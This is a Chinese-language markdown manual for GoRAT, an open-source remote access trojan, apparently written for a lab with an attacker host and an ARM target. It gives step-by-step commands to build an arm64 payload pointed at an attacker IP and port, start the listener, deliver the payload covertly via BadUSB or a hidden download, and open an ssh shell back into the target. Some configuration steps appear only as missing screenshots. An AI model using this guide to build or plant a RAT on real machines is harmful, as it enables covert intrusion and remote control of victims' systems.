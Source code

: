 # GoRAT使用手册

> github链接：https://github.com/JustinTimperio/GoRAT
>
> GoRAT主要是由Go和Shell语言编写而成，支持生成arm架构下的Payload
>
> > [!NOTE]
> >
> > **攻击者主机**：简记为`A`
> >
> > `ip`：`192.168.59.207`
> >
> > `port`：`8888`
> >
> > **目标靶机**：简记为`V`
> >
> > `架构`：`Phytium-aarch64`(`linux-ARMv8`)

## `A`：GoRAT安装与环境配置

为了不影响本地环境，使用Docker环境进行安装配置。

### 设置Go代理

由于国内安装go语言的mod包时会出现被墙的问题，因此我们在执行：

```shell
git clone git@github.com:JustinTimperio/GoRAT.git
```

将仓库下载下来后，对`./Dockerfile`文件作如下修改：<img src="./GoRAT.assets/image-20240422233609677.png" alt="image-20240422233609677"  />

加入上述Go代理，使得在`Docker`内执行`go mod download -x`时可以正常下载mod包。

### 配置`./config.sh`

在`./config.sh`下配置攻击者主机`A`的`ip`以及`port`以生成可在目标靶机上使用的`payload`：<img src="./GoRAT.assets/image-20240422234924239.png" alt="image-20240422234924239"  />

### 进行构建

在仓库目录下运行：

```shell
./build_payload.sh --docker
```

生成的`payload`位于`./BUILD/payloads`目录下

根据目标靶机`V`的架构，选择`goRAT_v12_linux_arm64_ARM7`作为`payload`

![image-20240423000021814](./GoRAT.assets/image-20240423000021814.png)

### 配置运行监听程序

监听程序位置即：`./scripts/start_server.sh`

- 配置`A`的端口号为`8888`：![image-20240423000759616](./GoRAT.assets/image-20240423000759616.png)

- 运行该程序：<img src="./GoRAT.assets/image-20240423002048992.png" alt="image-20240423002048992" style="zoom:150%;" />

  运行后开始监听。





## `V`：获得`payload`并执行

### 具体步骤

即通过`BadUSB`的方式将`payload`传输至目标靶机`V`上

- 将`payload`隐藏至大容量存储设备中并在`V`中执行
- 将`payload`上载至可访问平台中，通过`BadUSB`从平台上下载并在`V`上运行

运行后，在`A`上显示控制程序和端口程序的运行端口：![image-20240423001949206](./GoRAT.assets/image-20240423001949206.png)

- 显示控制端口在`41460`运行
- 显示`ssh`在端口`41461`运行

### ps：如何关闭监听程序？

- 先获得对应端口上的程序的`PID`：

  ```shell
  sudo netstat -tulpn | grep :8888
  ```

  <img src="./GoRAT.assets/image-20240423003228915.png" alt="image-20240423003228915" style="zoom:150%;" />

- 杀死比尔：

  ```shell
  kill -SIGKILL 506656
  ```





## `A`：建立ssh连接

执行下述命令之一：

```shell
//default
ssh -v localhost -p 41461
//for phytium_pi 
ssh -o HostKeyAlgorithms=ssh-rsa localhost -p 41461
```

即可与目标靶机`V`建立`ssh`连接：

